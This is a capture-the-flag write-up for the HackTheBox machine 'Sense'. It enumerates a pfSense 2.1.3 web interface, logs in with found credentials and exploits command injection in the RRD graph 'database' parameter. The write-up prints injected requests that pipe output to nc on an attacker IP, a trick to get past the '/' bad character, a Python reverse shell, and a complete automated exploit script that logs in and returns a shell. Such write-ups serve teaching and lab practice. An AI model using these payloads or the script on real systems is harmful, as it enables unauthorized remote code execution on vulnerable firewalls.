

This is an Easy box from HackTheBox. 

It's OS is FreeBSD, which is not so common in HackTheBox Machines.

It's exploration was through Web.

My rate for this machine is 3/10.

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.60
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> Pn - Consider the host alive


We got two open ports. 80 and 443.

## Port 80 and 443

Opening it on the browser we see.


Enumerating the two ports we see that both of them are running the same application. That is `PfSense`.

Now we Bruteforce it with `wfuzz` to find other directories on the application.

```sh
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 https://10.10.10.60/FUZZ
```


Well, we did not get too much information from it, so we can start making another kind of reconn on this box.

We can make a Gobuster with the option -x, which will execute a search for archives with extension as well.

```sh
gobuster dir -u https://10.10.10.60 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x .txt -k
```


And we can use also wfuzz for this

```sh
wfuzz -t 200 -c -z file,/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hc 404 https://10.10.10.60/FUZZ.txt
```


We found to intersting archives, the `changelog` and the `system-user`

So let's see them


Ops. We got some credential to the machine, that's good.

So we can try to log in the application to see what we can do there.

We look on the internet what is the credentials from pfSense

`https://networkbees.com/pfsense-default-username-and-password/`


Sure, so we try to log in


Sure, we can log


# pfSense

Now, with the credentials valid, we can start looking for something to explore on pfSense.

If we look on the Version, we can see what we need to explore

```
2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
```


`https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/`

Now we start to see how to get RCE on it

## RCE

It shows that we can get rce on `Graph - Status - RRD Graph` so, we open it


We click to see the image (Right Button - View Image)


The RCE is in `database` parameter

## Burp

We open our BurpSuite to Work better with the aplication and send the request to Repeater


We clean it to see better, and test our RCE payload after update it

```
GET /status_rrd_graph_img.php?database=queues;id|nc+10.10.14.18+5555 HTTP/1.1
```


## Reverse Shell

Now, once we got RCE, the next path is to get the reverse shell on the box

We encounter some bad aspects when trying to get the reverse shell, the first one is that `/` is a `BAD CHAR`, so we cannot use it on our payloads, how I discovered it? Trying...

If we try to send a reverse shell we see that nothing comes on our opened port

If you send something without the / the result come to you


If we send something with / we see that no results come to us


So, how will we overcome this?

### Env

We will some the path variables, if there are some which is the /, we can use it and be happy

```
GET /status_rrd_graph_img.php?database=queues;env|nc+10.10.14.18+5555 HTTP/1.1
```


Yes. We can use the `$HOME`

```
GET /status_rrd_graph_img.php?database=queues;echo+${HOME}|nc+10.10.14.18+5555 HTTP/1.1
```


Awesome! We bypassed the bad char on Burp, this is really intersting when dealing with bad chars on web aplications.

We get a reverse shell in python in our machine

```py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.18",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```


We execute it trough the BurpSuite and send to python

```sh
nc 10.10.14.18 1337|python&
```

On port 1337, will be being served a nc with the payload, and we must have a port opened to receive the connection back on 443


Sure, we got it. Now let's automate it in a Python Script

# Python Script

We got a skeleton in python to start working on it

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```


pfsense_exploit.py

```py
#!/usr/bin/python3
# Date: 2021-08-31
# Exploit Author: 0x4rt3mis
# Vendor Homepage: https://www.pfsense.org/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# Hack The Box - Sense

import argparse
import requests
import sys
import urllib
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
import collections
import os
import socket, telnetlib
from threading import Thread

#### Setting up something important #####
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()
headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "https://10.10.10.60", "Connection": "close", "Referer": "https://10.10.10.60/", "Upgrade-Insecure-Requests": "1"}

'''Here come the Functions'''

# Setar o handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

#First we need to get the CSRF Token in order to procced on login
def getCSRFToken(rhost):
    # Make csrfMagicToken global
    global csrf_token
    global login_url
    login_url = 'https://' + rhost + '/index.php'
    # Make the request to get csrf token
    login_page = r.get(login_url, verify=False, proxies=proxies, headers=headers)
    # Get the index of the page, search for csrfMagicToken in it
    index = login_page.text.find("csrfMagicToken")
    # Get only the csrfMagicToken in it
    csrf_token = login_page.text[index:index+128].split('"')[-1]
    if csrf_token:
        print("[+] We got the csrf_token [+]")
    else:
        print("[+] Cannot get the CSRF_TOKEN[+]")
        exit
# Now we got the csrftoken, let's log in the application
def pfsenseLogin(rhost,username,password):
    # Let's format the data we will send
    login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
    login_data = collections.OrderedDict(login_data)
    encoded_data = urllib.parse.urlencode(login_data)
    login_request = r.post(login_url, data=encoded_data,cookies=r.cookies, verify=False, proxies=proxies, allow_redirects=True, headers=headers)
    if login_request.status_code == 200:
        print("[+] Login successssss![+]")
    else:
        print("[+] Login FAILED![+]")
    
def payload(lhost,lport):
    # command to write in a file and served as python http web server
    command = """import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("%s",%s))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])""" % (lhost, lport)
    payload_file = open('payload.txt', 'w')
      
    # Writing multiple strings
    # at a time
    payload_file.writelines(command)
    payload_file.close()
    print("[+] Payload Written to payload.txt [+]")
 
def exploit(rhost,lhost):
    print("[+] Let's open port 9999 to send the payload! [+]")
    os.system("nc -lnvp 9999 < payload.txt & > /dev/null 2>&1")
    print("[+] Payload Sent! Shell comming soon! [+]")
    exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"nc+"+ lhost + "+" + "9999" + "|" + "python" + "%26"
    exploit_request = r.get(exploit_url, cookies=r.cookies, headers=headers, verify=False, timeout=5, proxies=proxies)
    os.system("rm payload.txt")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.port
    username = args.username
    password = args.password
    
    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Get the csrftoken
    getCSRFToken(rhost)
    # Log in
    pfsenseLogin(rhost,username,password)
    # Mount the payload
    payload(lhost,lport)
    # Exploit
    exploit(rhost,lhost)
if __name__ == '__main__':
    main()
```